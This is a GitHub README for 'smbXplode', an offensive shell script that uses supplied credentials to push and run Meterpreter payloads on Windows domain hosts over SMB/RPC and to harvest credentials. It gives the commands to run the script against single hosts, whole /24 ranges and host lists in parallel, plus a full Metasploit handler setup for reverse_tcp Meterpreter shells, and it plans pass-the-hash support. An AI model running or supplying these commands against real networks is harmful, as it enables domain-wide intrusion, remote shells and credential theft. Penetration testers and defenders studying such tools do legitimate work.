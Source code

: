 # smbXplode

What to do when Metasploit psexec module doesn't work for no good reason? 

This script is used to automate the process of harvesting credentials and getting Meterpreter sessions through smb and rpc in a windows domain.
For this to work you would need to have some kind of admin credentials to start with. or you could have some low privileged credentials; that you want to try them against the whole range and try to escalate your privilege later on. 

You can always re-adapt msfcommands.rc to automate the Metasploit commands that you want to run once you have a session. 

Also notice that due to the use of net rpc, you need to migrate first thing after a session otherwise the session would die. You can always fall back to use the Winexe command (which you can find commented in the script).

### Features 
- Detects remote host architecture before uploading payload
- Abstracts the process of upload/execute payload on remote host
- Combined with "gnu parallel", it can exploit whole ranges/host lists within one command line

### Future improvements
- Better integrate gnu parallel with in the script itself for more convenience.
- Improve the way arguments are passed, add arguments for number of threads, ip ranges, host files. 
- Add the ability to go through a list of captured credentials, to check them against the ip/range in scope. 
- Add pass the hash option if password is not available

### Usage 
Before running this script, simply make sure that you have two payload files (32 & 64 bit). Make sure to update the name of the files accordingly in the script. 


#### Single Host
To run the script simply use the following syntax
```	
./smbXplode.sh domain username password hostIP
```

Example : 
```
./smbXplode.sh domain tito Password2015 10.10.10.10
```

#### Multiple Hosts
So far it's not really integrated into the script, as I like to keep it as simple as possible. I rely on GNU parallel to do that. 
Notice that parallel passes the IP as the last parameter already. 

Example 
```
Running against a /24
for i in {1..254}; do echo 10.10.10.$i; done | parallel -j 5 ./smbXplode.sh domain tito Password2015
```
```
Running against host ips file
cat hosts.txt | parallel -j 5 ./smbXplode.sh domain tito Password2015
```

#### Metasploit Handler
Make sure to have your Metasploit handler listening for both payloads ( you can listen two different ports for 32, and 64 ).
Also, make sure you select the correct payload for the handler, I will demonstrate the reverce_tcp (32 and 64) 

Example :

```
use exploit/multi/handler
set autorunscript multi_console_command -rc /path/to/msfcommands.rc
set ExitOnSession false
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 1111
run -j -z
set payload windows/meterpreter/reverse_tcp
set lport 2222
run -j -z
```

Now make sure that your connect back payloads are configured to match those ports and payload type. 
